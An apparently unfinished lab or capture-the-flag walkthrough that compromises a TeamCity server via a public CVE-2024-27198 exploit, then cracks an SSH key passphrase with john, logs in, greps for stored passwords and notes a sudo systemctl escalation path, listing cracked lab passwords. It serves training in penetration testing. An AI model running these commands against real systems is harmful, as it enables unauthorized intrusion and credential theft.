 #InProgress 
```IP
192.168.102.91
```
# Enumeration

## HTTP 80

login redirects us to http://teams.onlyrands.com/ so we add it to /etc/hosts

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105341.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202105420.png?raw=true)


# Exploitation


https://github.com/W01fh4cker/CVE-2024-27198-RCE

```
python CVE-2024-27198-RCE.py -t http://teams.onlyrands.com -u admin -p admin
```

we can now login and we discover some users
```
patriciam
matthewa
marcot
kathleenw
```

we can create a backup and investigate
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120231.png?raw=true)

the database contains credentials

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120214.png?raw=true)

password doesnt crack so we try to execute commands with the previous exploit
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120941.png?raw=true)
we get an error. Apparently we need to activate debug settings
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202120702.png?raw=true)
even with this, it still doesnt work
we find something in the building porjects
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121254.png?raw=true)
an id_rsa key. We need a password tho
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202121622.png?raw=true)
we crack it with 
```
ssh2john id_rsa
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122025.png?raw=true)
```
cheer
```
```
ssh marcot@192.168.102.91 -i id_rsa
```
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122213.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202122341.png?raw=true)
searching for passwords we find
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202130232.png?raw=true)
```
IdealismEngineAshen476
```
```
su - matthewa
```

```
grep --color=auto -rnw '/home/freelancers/matthewa/' -ie "PASSWORD" --color=always 2> /dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202131725.png?raw=true)
```
RefriedScabbedWasting502
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133817.png?raw=true)
we have su permissions over 
```
/usr/bin/systemctl status teamcity-server.service
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202133754.png?raw=true)
## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202124706.png?raw=true)
```
/home/freelancers/marcot/.gnupg/pubring.kbx
/home/freelancers/marcot/.gnupg/trustdb.gpg
```
### Mimikatz

# Lateral Movement
